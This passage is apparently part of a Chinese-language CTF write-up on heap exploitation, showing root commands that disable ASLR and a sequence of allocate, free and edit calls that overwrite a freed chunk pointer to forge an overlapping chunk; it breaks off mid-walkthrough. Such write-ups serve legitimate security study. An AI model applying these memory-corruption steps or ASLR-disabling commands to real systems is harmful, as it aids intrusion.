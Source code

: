 ## 详细流程

为了方便，我们先关闭 ASLR

```bash
su
echo 0 > /proc/sys/kernel/randomize_va_space
cat /proc/sys/kernel/randomize_va_space
```

首先申请几个堆块，最后一个起保护作用。

```bash
add(0x60,0,'a')
add(0x60,1,'b')
add(0x60,8,'d')
add(0x20,7,'prevent_chunk')
```

我们的目的是合并 chunk1 和 chunk8

```bash
delete(1)
delete(0)
```

[![](assets/1701612416-dd64db3b90a9c7f2c2dd3e3198530d65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170046-1a9c5fee-14c9-1.png)

```bash
edit(0,'\x50')
```

[![](assets/1701612416-1f8a07d22d57cd8a3f4525378f8f1a17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170100-22d24cd2-14c9-1.png)  
这时还没有在 0x555555757050 处伪造成功

